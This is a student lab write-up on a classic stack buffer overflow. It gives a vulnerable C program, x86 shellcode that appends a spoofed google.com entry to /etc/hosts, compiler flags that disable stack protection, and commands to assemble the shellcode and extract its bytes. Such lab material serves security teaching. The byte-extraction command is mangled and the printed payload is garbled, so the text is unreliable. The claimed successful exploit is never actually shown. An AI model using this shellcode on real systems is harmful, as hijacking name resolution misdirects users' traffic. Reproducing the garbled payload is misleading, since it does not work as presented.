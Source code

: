 # Task 1: Software buffer overflow attack

## Assignment Questions

Given a vulnerable C program

```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```

and a shellcode in asm. This shellcode add a new entry in hosts file

```
global _start

section .text

_start:
    xor ecx, ecx
    mul ecx
    mov al, 0x5
    push ecx
    push 0x7374736f     ;/etc///hosts
    push 0x682f2f2f
    push 0x6374652f
    mov ebx, esp
    mov cx, 0x401       ;permmisions
    int 0x80            ;syscall to open file

    xchg eax, ebx
    push 0x4
    pop eax
    jmp short _load_data    ;jmp-call-pop technique to load the map

_write:
    pop ecx
    push 20             ;length of the string, dont forget to modify if changes the map
    pop edx
    int 0x80            ;syscall to write in the file

    push 0x6
    pop eax
    int 0x80            ;syscall to close the file

    push 0x1
    pop eax
    int 0x80            ;syscall to exit

_load_data:
    call _write
    google db "127.1.1.1 google.com"
```

## Solution

### **Build Docker Image**

A Docker image was built to create a controlled environment for the experiment.

```
docker build -t img4lab .
```

![1729567483647](images/Lahuyhoang/1729567483647.png)

### **Run Docker Container**

The Docker container was run with the necessary privileges and volume mounts.

```
docker run -it --privileged -v C:/Users/HOANG/seclabs:/home/seed/seclabs img4lab
```

```
seed@6b36587fc303:$ cd
.bash_logout  .bashrc       .gdbinit      .profile      peda/         seclabs/
seed@6b36587fc303:$ cd seclabsseed@6b36587fc303:/seclabs$ cd
.vscode/         buffer-overflow/ lab1/
seed@6b36587fc303:/seclabs$ cd lab1
```

### **Compile the Vulnerable C Program**

The vulnerable C program was compiled with specific flags to disable stack protection and allow executable stacks.

```
seed@6b36587fc303:~/seclabs/lab1$ gcc -m32 -fno-stack-protector -z execstack -o vulnerable vulnerable.c
```

### **Assemble the Shellcode**

The shellcode was assembled into an object file using NASM.

```
seed@6b36587fc303:~/seclabs/lab1$ nasm -g -f elf shellcode.asm -o shellcode.o
```

### **Link the Shellcode**

The object file was linked to create an executable.

```
seed@6b36587fc303:~/seclabs/lab1$ ld -m elf_i386 shellcode.o -o shellcode
```

### **Disassemble the Shellcode**

The shellcode was disassembled to verify its contents.

```
seed@6b36587fc303:~/seclabs/lab1$ objdump -d shellcode
```

![1729568266762](images/Lahuyhoang/1729568266762.png)

![1729568315316](images/Lahuyhoang/1729568315316.png)

### **Generate the Payload**

A payload was generated by extracting the shellcode bytes and preparing them for the buffer overflow attack.

```
for i in $(objdump -d shellcode | grep "^ " | cut -f2); do echo -n '\x'(objdump -d shellcode | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo
```

![1729569367063](images/Lahuyhoang/1729569367063.png)

```
$i; done; echo
\x31\xc9\xf7\xe1\xb0\x05\x51\x68\x6f\x73\x74\x73\x68\x2f\x2f\x2f\x68\x68\x2f\x65\x74\x63\x89\xe3\x66\xb9\x01\x04\xcd\x80\x93\x6a\x04\x58\xeb\x10\x59\x6a\x14\x5a\xcd\x80\x6a\x06\x58\xcd\x80\x6a\x01\x58\xcd\x80\xe8\xeb\xff\xff\xff\x31\x32\x37\x2e\x31\x2e\x31\x2e\x31\x20\x67\x6f\x6f\x67\x6c\x65\x127.1.1.1\xgoogle\x2e\x63\x6f\x6d\x.com
seed@6b36587fc303:~/seclabs/lab1$
```

## Conclusion

By following these steps, the buffer overflow vulnerability in the C program was successfully exploited to execute the shellcode, which added a new entry to the `/etc/hosts` file. This demonstrates the potential impact of buffer overflow vulnerabilities and the importance of secure coding practices

![1729570005912](images/Lahuyhoang/1729570005912.png)

![1729570109569](images/Lahuyhoang/1729570109569.png)

![1729570193192](images/Lahuyhoang/1729570193192.png)
